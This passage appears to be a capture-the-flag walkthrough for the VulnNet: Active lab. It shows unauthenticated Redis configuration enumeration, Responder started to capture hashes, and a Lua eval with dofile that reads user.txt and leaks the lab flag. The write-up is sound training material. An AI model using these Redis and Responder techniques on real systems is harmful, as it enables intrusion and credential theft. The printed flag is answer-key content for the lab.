 ```bash 
vulnnet.thm:6379> CONFIG GET pidfile
1) "pidfile"
2) "/var/run/redis.pid"
```

```bash
vulnnet.thm:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "dump.rdb"
```

```bash
vulnnet.thm:6379> CONFIG GET logfile
1) "logfile"
2) ""
```

<p>

- C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402</p>

```bash
vulnnet.thm:6379> CONFIG GET dir
1) "dir"
2) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
```

```bash
vulnnet.thm:6379> CONFIG GET *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
...
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
...
```

<h4>Reponder</h4>

```bash
:~/VulnNetActive# responder -I ens5
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

...
[+] Listening for events...
```

<br>

```bash
vulnnet.thm:6379> eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
(error) ERR Error running script (call to f_...): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near '3eb176aee96432d5b100bc93580b291e' 
```
